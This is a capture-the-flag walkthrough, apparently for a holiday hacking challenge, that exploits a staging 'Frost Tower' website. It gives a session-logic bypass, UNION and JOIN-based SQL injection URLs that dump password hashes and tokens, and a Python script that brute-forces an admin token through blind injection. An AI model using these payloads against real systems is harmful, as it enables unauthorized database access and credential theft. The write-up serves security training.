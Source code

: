 ## Summary
At the top right of the main courtyard, after thawing the Frost Tower door and fixing the Frostivator elevator, go to the top floor, Jack's Office. Enter the left room, called Studio, and talk with Ingreta about the Frost website and download the sourcecode. You will practice sourcecode review and web application hacking.

## Steps
1. Review the sourcecode for flaws. If you aren't able to find anything, you can go complete the Python coding challenges (where you move the little elf to collect candies) and after level 8, the elf there will give you a few hints about where the Frost Tower Website is vulnerable.
<details>
  <summary>The Elf's Hint</summary>
  He tells you to review a couple of lib docs - the npm express-session package (https://www.npmjs.com/package/express-session) and the mysqljs/mysql package (https://github.com/mysqljs/mysql).
</details>

2. Exploit the first vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the express-session package. Take a look at how it uses this lib to find developer flaws in session management.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js file assigns the unauthenticated user a session when a certain unauthenticated call is made with certain logic. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/postcontact" method assigns the user a session when certain logic is followed. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Answer</summary>
  Submit the /contact form using some email address. Submit the form again, using the same email address. You now have a session and can navigate to /dashboard to confirm.
</details>

3. Exploit the second vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the mysql package. Take a look at the official docs to identify potential mistake points where developers may accidentally insecurely implement classes/calls.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js "/detail/:id" method is a good place to look.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/detail/:id" method calls the insecure raw() method on the mysql connection to execute a raw query. Try to manipulate the user input to exploit this vulnerability.
</details>

<details>
  <summary>Answer</summary>
  While "/detail/1,1 or 1=1" will successfully return all uniquecontact details, a UNION-based SQL injection will give you all database user password hashes too! You can build this exploit by reviewing the database tables sourcecode.
  https://staging.jackfrosttower.com/detail/1,2,4%20union%20select%20*%20from%20users--
</details>

4. Exploit the second vulnerability...again...
<details>
  <summary>What's this about?...</summary>
  After getting SQL injection and the password hashes, can we login as someone? (I didn't crack any hashes...)
</details>

<details>
  <summary>Hint 1</summary>
  There are some super-protected pages that need special perms on top of a session. Can you figure out how to get in?
</details>

<details>
  <summary>Hint 2</summary>
  Take a look at how the "token" value is used and think about how it can be obtained and used.
</details>

<details>
  <summary>Answer</summary>
  I bruteforced the Super Admin token (mxCamxRUVgBWr3l7uFR8uUbuQcAa496e) and reset their password and logged in as them. Code below. (CHANGE THE SESSION ID IN THE CODE!)

```
import requests, string
ALL = list(string.ascii_letters)
ALL.extend(string.digits)
print(ALL)
FINAL = ''

def test():
    global FINAL
    for injection in ALL:
        url = 'https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20users%20where%20id=1%20and%20token%20like%20%22HERE%25%22--'
        url = url.replace('HERE',FINAL + injection)

        r = requests.get(
            url,
            cookies={"connect.sid": "YOUR SESSION ID"}
        )
        # print(r.status_code)
        # print(r.text)
        if r.status_code!=200:
            FINAL = FINAL + injection
            print("FINAL: ", FINAL)
            if len(FINAL)==32:
                exit('DONE')

for i in range(0,32):
    test()

print('DONE')
```

</details>

<details>
  <summary>Alternative (better) Answer</summary>
  Use comma-less JOINs for arbitrary data SELECTs.
  https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(select%20token%20from%20users%20where%20id%20=1)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
</details>

5. Exploit the second vulnerability...for the final answer!
<details>
  <summary>Hint 1</summary>
  Where could the todo list be? Enumerate the DB tables using the JOINs above.
</details>

<details>
  <summary>Hint 2</summary>
  The DB likely blocks FUNCTION calls and the INFORMATION_SCHEMA.COLUMNS table, so you have to bruteforce/enum the col names manually - or with BurpSuite Intruder!
</details>

<details>
  <summary>Answer</summary>
  Run this through BurpSuite Intruder
 
  /detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(%20SELECT%20§1§%20FROM%20todo)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
  
  And set the inject point to the "1" (already done in example above) in the "select 1 from todo" query. I used this wordlist:
  
  https://github.com/drtychai/wordlists/blob/master/sqlmap/common-columns.txt 
  
  Then I filtered results by length and found the two largest were id and note.
  Answer:
  
  https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(%20SELECT%20note%20FROM%20todo)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
</details>
